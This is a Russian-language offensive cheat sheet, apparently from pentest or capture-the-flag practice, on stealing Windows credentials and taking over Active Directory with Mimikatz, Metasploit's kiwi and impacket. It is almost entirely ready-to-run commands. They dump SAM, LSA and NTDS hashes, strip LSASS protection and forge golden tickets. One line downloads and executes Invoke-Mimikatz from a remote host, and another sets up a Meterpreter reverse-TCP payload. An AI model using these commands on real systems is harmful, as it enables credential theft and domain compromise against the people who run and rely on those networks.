 # mimi

# мимикат повершелл 

        https://github.com/g4uss47/Invoke-Mimikatz
        IEX(New-Object Net.WebClient).downloadString('http://192.168.50.123:8000/Invoke-Mimikatz.ps1')
        Invoke-Mimikatz -command "privilege::debug token::elevate lsadump::sam"


МИМИКАТЗ в метасплойт

use windows/x64/meterpreter_reverse_tcp

load kiwi
kiwi_cmd lsadump::sam

https://github.com/gentilkiwi/mimikatz/releases 

Как извлечь хеш пароля пользователя NTLM из файлов реестра


Если есть готвый стянуты файл sam  и system

.\mimikatz.exe

lsadump::sam /system:C:\Share-Server\files\SYSTEM /sam:C:\Share-Server\files\SAM

Если из памяти...
После запуска Mimikatz можно использовать следующие команды для вытягивания паролей из памяти Windows:

- `privilege::debug` - открывает привилегии отладки для текущего процесса.
- `token::elevate` - повышение привелегий
- `sekurlsa::logonPasswords` - выводит введенные пользователем логины и хэши паролей.
- `lsadump::sam` - вытягивает пароли из базы данных SAM.
- `lsadump::lsa` - вытягивает хэши паролей из дискового хранилища LSA.
- `lsadump::lsa` /patch Сбросьте эти хэши!!
- `token::elevate` - поднимает привилегии на максимальный уровень.
- `token::whoami` - выводит информацию о текущем пользователе.
- `lsadump::cache` - mscash2 последних 10 пользователей из систем и секьюрити
- `lsadump::dcsync` - /all /csv - дампим ntds.dit с контроллера
- `lsadump::dcsync /domain:za.tryhackme.loc /user:lorraine.gill` - дампим определенного пользака
Подробнее: https://www.securitylab.ru/analytics/517178.php

- `lsadump::secrets`  - ntlm аккаунта машины

    --- Если Защищенный LSASS!!!!!!!!!!

  - `!+`     -- загружаем mimidrv.sys   
  - `!processprotect /process:lsass.exe /remove`   --- и тогда LSAS открыт

 - `sekurlsa::credman` - для выгрузки данных из credential manager




Для получения данных из ntds.dit, аналогично команде lsadump::sam в инструменте Mimikatz, можно использовать следующие команды:

1. Загрузите ntds.dit в память с помощью команды "lsadump::synchronize". Например:
```
mimikatz # lsadump::synchronize /system:C:\Windows\system32\config\system /ntds:C:\Windows\NTDS\ntds.dit
```

2. Используйте команду "lsadump::dcsync" для извлечения данных из базы данных ntds.dit. Например:
```
mimikatz # lsadump::dcsync /user:Administrator
```
где "Administrator" - это имя пользователя, данные которого вы хотите получить.


Если LSASS в виртуальном контейнере

privilege::debug
misc::memssp

и получаем после перелогина

c:\windows\system32\mimilsa.log

# Golden ticket  - Dump SID and KRBTGT hash (on DC) от АДМИНИСТРАТОРА

PS C:\pentst> .\mimikatz.exe

mimikatz # privilege::debug

mimikatz # token::elevate (DONT NEED THIS)

mimikatz # lsadump::lsa /patch (lsadump::lsa /inject /name:krbtgt) ---нужен sid и хеш krbtgt

# Create golden ticket (write to file in this case)

# Golden ticket impacket

python lookupsid.py ignite/Administrator:Ignite@987@192.168.1.105   (Получение SID домена)

python secretsdump.py administrator:Ignite@987@192.168.1.105 -выходной файл krb -user-status (Получение хеша krbtg)

impacket-ticketer -nthash 08f5bf2e292d77d8e460d3926a0d90de -domain-sid S-1-5-21-719111203-942671344-1831409528 -domain domain.dom anyuser   (В текущей директории создан билет anyuser.ccache. Экспортируем его)

export KRB5CCNAME=anyuser.ccache

python3 psexec.py -k -no-pass [домен]/[пользователь]@[имя хоста]    (подключение с псезек)



https://xakep.ru/2020/04/15/windows-ad-persistence/


PS C:\Tools> .\mimikatz.exe
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:golden

(kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500)

# Super golden ticket
kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:corp_super_golden /endin:2147483647

# Inject ticket to memory
C:\Tools> mimikatz.exe
mimikatz # kerberos::ptt ticket.kirbi

# PsExec to DC
PsExec64.exe \\dc01 cmd.exe

# Или запуск cmd для доступа к другим машинам
mimikatz # misc::cmd
